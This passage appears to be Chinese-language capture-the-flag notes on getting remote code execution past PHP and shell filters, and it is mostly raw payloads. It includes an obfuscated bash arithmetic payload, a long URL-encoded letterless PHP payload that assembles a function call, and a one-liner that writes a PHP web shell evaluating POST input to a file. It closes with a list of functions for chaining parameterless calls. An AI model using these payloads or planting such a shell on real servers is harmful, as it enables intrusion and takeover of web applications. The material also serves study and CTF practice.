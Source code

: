 ```bash
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
-->36

#有时间可以去写个脚本，自动化构造payload
```

```bash
%24_%3d%5b%5d%3b%24_%3d%40%22%24_%22%3b%24_%3d%24_%5b'!'%3d%3d'%40'%5d%3b%24___%3d%24_%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24____%3d'_'%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24_%3d%24%24____%3b%24___(%24_%5b_%5d)%3b
```

`_=file_put_contents("getflag.php","<?php eval(\$_POST['shell']);?>");`

### 无参rce

`';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)`
需要时查阅[here](https://www.cnblogs.com/pursue-security/p/15406272.html#_label0)

```php
主要
1、getallheaders()
2、get_defined_vars()
3、session_id()

配套
implode() 将一维数组转化为字符串
getchwd() 函数返回当前工作目录。
scandir() 函数返回指定目录中的文件和目录的数组。
dirname() 函数返回路径中的目录部分。
chdir() 函数改变当前的目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
end() 将内部指针指向数组中的最后一个元素，并输出。
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip() array_flip() 函数用于反转/交换数组中所有的键名以及它们关联的键值。
array_slice() 函数在数组中根据条件取出一段值，并返回。
array_reverse() 函数返回翻转顺序的数组。
chr() 函数从指定的 ASCII 值返回字符。
hex2bin() — 转换十六进制字符串为二进制字符串。
```
